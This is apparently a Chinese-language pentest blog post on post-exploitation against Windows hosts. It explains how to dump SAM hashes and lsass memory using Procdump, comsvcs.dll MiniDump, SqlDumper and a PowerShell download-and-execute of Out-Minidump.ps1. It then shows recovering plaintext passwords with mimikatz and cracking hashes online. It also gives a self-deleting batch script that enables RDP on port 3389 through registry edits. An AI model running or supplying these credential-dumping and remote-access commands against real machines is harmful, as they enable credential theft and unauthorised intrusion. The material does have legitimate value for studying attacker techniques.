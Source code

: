+++
date = "2016-08-08T08:28:27+08:00"
description = ""
draft = false
tags = ["intranet"]
title = "导出Windows主机密码与开启3389"
topics = ["Pentest"]

+++

### 0x00 导出主机密码hash
* 关于Windows的hash
    * 早期IBM设计的LM Hash算法存在弱点，微软在保持向后兼容性的同时提出了自己的挑战响应机制，即NTLM Hash
    * Windows hash由LM HASH和NT HASH两部分组成，形式为：用户名称:RID:LM-HASH值:NT-HASH值
    * 存储Windows hash的sam文件位置为：C:\windows\system32\config\SAM

* 导出hash条件
    * administrator以上权限

* 导出hash工具
    * wce
    * gethash
    * hashdump
    * SAMInside

* 上传工具得到hash
![查看是否为管理员以上权限](/img/post/privilge_escalation_win_view_whoami.png)
![上传wce](/img/post/privilge_escalation_win_upload_wce.png)
![得到hash](/img/post/privilge_escalation_win_get_hash.png)

* 在线网站解密hash
    * LM Hash和NT Hash得到一个就可以解密，不过两个都得到的话解密的成功率会更高
    * 可以在[http://www.objectif-securite.ch/ophcrack.php](http://www.objectif-securite.ch/ophcrack.php?_blank)解密
    ![解出密码](/img/post/privilge_escalation_win_get_pwd.png)

### 0x01 导出主机密码
* 条件
    * administrator以上权限
    * 当前管理员没有注销登陆(可以通过query user命令看出)

* 工具
    * mimikatz
    * getpass

* 上传工具得到密码
![查看是否为管理员以上权限](/img/post/privilge_escalation_win_view_whoami.png)
![查看管理员是否注销登陆](/img/post/privilge_escalation_win_query_user.png)
![上传getpass](/img/post/privilge_escalation_win_upload_getpass.png)
![得到密码1](/img/post/privilge_escalation_win_getpass1.png)
![得到密码2](/img/post/privilge_escalation_win_getpass2.png)

* 导出NTLM Hash本地得到密码  
    若 mimikatz 和 getpass 这类软件被杀的话可以先用Procdump导出lsass.dmp，然后本地用mimikatz解密
    * 导出文件 hash 文件  
        * 上传 Procdump.exe 导出

        > ```
        Procdump.exe -accepteula -ma lsass.exe lsass.dmp
        ```

        * 或者执行 PowerShell 导出

        > ```
        powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Out-Minidump.ps1'); "Get-Process lsass | Out-Minidump"

        或者
        tasklist /svc |findstr lsass.exe #查看 lsass.exe 的 pid
        powershell -c "rundll32 C:\windows\system32\comsvcs.dll, MiniDump <pid> C:\lsass.dmp full"
        ```

        * 或者用 SqlDumper.exe 导出

        > ```
        tasklist /svc |findstr lsass.exe #查看 lsass.exe 的 pid
        "C:\Program Files\Microsoft SQL Server\100\Shared\SqlDumper.exe" <pid> 0 0x01100
        ```

    * 下载导出的dmp文件后用本地mimikatz解密  
        先输入：```mimikatz.exe "sekurlsa::minidump lsass.dmp"```  
        后输入：sekurlsa::logonpasswords

### 0x02 开启3389
* 直接使用注册表
![新建开3389的注册表](/img/post/privilge_escalation_win_new_file_3389_reg.png)
![开3389端口](/img/post/privilge_escalation_win_open_3389.png)
![成功开启3389端口](/img/post/privilge_escalation_win_open_3389_success.png)

* 写一个批处理也行
```
# 3389.bat内容如下：
echo Windows Registry Editor Version 5.00>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg 
echo "fDenyTSConnections"=dword:00000000>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg 
echo "PortNumber"=dword:00000d3d>>3389.reg 
regedit /s 3389.reg 
del 3389.reg
del 3389.bat
```
![新建开3389的注册表](/img/post/privilge_escalation_win_new_file_3389_bat.png)


<br>
#### Reference(侵删)：
[https://www.cnblogs.com/hiccup/p/4380298.html](https://www.cnblogs.com/hiccup/p/4380298.html?_blank)